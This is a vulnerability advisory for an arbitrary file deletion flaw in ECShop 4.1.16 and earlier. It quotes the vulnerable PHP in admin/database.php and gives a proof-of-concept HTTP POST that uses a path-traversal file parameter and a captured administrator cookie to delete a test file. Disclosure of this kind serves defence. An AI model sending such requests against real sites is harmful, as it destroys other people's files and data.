







# ECShop_v4.1.16 Arbitrary File Deletion Vulnerability

## 1. Affected version

```
 ECShop <= 4.1.16
```

## 2. Firmware download address

[https://www.ecshop.com/download](https://www.ecshop.com/download)

or the source directory and readme directory of this repository are ECShop_ Source code for v4.1.16

## 3. Vulnerability details

 Starting from line 266 of the file  source  on "\source\ecshop\admin\database.php".

```php
if ($_REQUEST['act'] == 'remove') {
    /* 权限判断 */
    admin_priv('db_backup');

    if (isset($_POST['file'])) {
        $m_file = array(); //多卷文件
        $s_file = array(); //单卷文件
        
        $path = ROOT_PATH . DATA_DIR . '/sqldata/';
        
        foreach ($_POST['file'] as $file) {
            if (preg_match('/_[0-9]+\.sql$/', $file)) {
                $m_file[] = substr($file, 0, strrpos($file, '_'));
            } else {
                $s_file[] = $file;
            }
        }

        if ($m_file) {
            $m_file = array_unique($m_file);

            /* 获取文件列表 */
            $real_file = array();

            $folder = opendir($path);
            while ($file = readdir($folder)) {
                if (preg_match('/_[0-9]+\.sql$/', $file) && is_file($path . $file)) {
                    $real_file[] = $file;
                }
            }

            foreach ($real_file as $file) {
                $short_file = substr($file, 0, strrpos($file, '_'));
                if (in_array($short_file, $m_file)) {
                    @unlink($path . $file);
                }
            }
        }

        if ($s_file) {
            foreach ($s_file as $file) {
                @unlink($path . $file);
            }
        }
    }

    sys_msg($_LANG['remove_success'], 0, array(array('text' => $_LANG['restore'], 'href' => 'database.php?act=restore')));
}
```



We can find that for the file parameter passed in by POST, the $s_file variable is not filtered, and any file can be deleted by using directory splicing.

## 4. Vulnerability verification

First, in the \source\ecshop directory, create a file named 123.php to verify the vulnerability.



Then we use the burpsuite tool to capture the packet and log in to the administrator account to obtain the administrator's cookie.

```
/admin/privilege.php?act=login
```



Login successful:



Copy the administrator's  cookie. 



Then construct the exploit, fill in the administrator's cookie and your host.

```
POST /admin/database.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 21 Jul 2023 13:53:04 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

act=remove&file[]=../../123.php
```

Finally, send the constructed request packet.



We can find that the 123.php file has been deleted.


